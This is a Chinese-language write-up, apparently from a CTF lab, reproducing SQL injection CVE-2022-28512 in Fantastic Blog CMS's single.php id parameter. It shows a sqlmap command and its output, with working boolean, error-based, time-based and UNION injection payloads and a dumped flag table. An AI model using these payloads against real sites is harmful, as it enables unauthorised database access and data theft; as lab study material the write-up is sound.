

# CVE-2022-28512（Fantastic Blog SQL注入）

<div style="text-align: right;">

date: "2023-01-09"

</div>

## 漏洞描述

- Fantastic Blog (CMS)是一个绝对出色的博客/文章网络内容管理系统。 
- 该CMS的/single.php路径下，id参数存在一个SQL注入漏洞。

## 漏洞原理

- 暂无


## 漏洞复现

在主页随便点击一篇博客，可以看到左下角加载了`single.php?id=3#`，我们这里直接访问`http://example.com/single.php?id=1`，抓包进行注入点测试





```bash
C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6
λ python3 sqlmap.py -r chanyue.txt -D ctf -T flag -C flag --dump --random-agent
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:46:25 /2023-01-10/

[00:46:25] [INFO] parsing HTTP request from 'chanyue.txt'
[00:46:26] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; PPC Mac OS X 10_5_4; en-us) AppleWebKit/525.18 (KHTML, like Gecko) Version/3.0.4 Safari/523.10' from file 'C:\Users\手动打码\Desktop\常用漏洞检测工具\漏
洞扫描\sqlmap-1.6\data\txt\user-agents.txt'
[00:46:26] [INFO] resuming back-end DBMS 'mysql'
[00:46:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=1' RLIKE (SELECT (CASE WHEN (2511=2511) THEN 1 ELSE 0x28 END))-- RuwL

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 9799 FROM(SELECT COUNT(*),CONCAT(0x7162626b71,(SELECT (ELT(9799=9799,1))),0x717a766271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- WPJz

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=1' OR SLEEP(5)-- iAwq

    Type: UNION query
    Title: MySQL UNION query (NULL) - 9 columns
    Payload: id=-9908' UNION ALL SELECT NULL,CONCAT(0x7162626b71,0x436b65436561686a44564b6b714d536b684d646f754f6c657345774c65546a6f776c6e4245706170,0x717a766271),NULL,NULL,NULL,NULL,NULL,NULL,NULL#
---
[00:46:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.2.20
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[00:46:28] [INFO] fetching entries of column(s) 'flag' for table 'flag' in database 'ctf'
Database: ctf
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{ae7dbb1b-b2fd-45a2-b026-123e22e17333} |
+--------------------------------------------+

[00:46:30] [INFO] table 'ctf.flag' dumped to CSV file 'C:\Users\手动打码\AppData\Local\sqlmap\output\eci-2zecphyg1erckgl3vxqu.cloudeci1.ichunqiu.com\dump\ctf\flag.csv'
[00:46:30] [INFO] fetched data logged to text files under 'C:\Users\手动打码\AppData\Local\sqlmap\output\eci-2zecphyg1erckgl3vxqu.cloudeci1.ichunqiu.com'
[00:46:30] [WARNING] your sqlmap version is outdated

[*] ending @ 00:46:30 /2023-01-10/
```
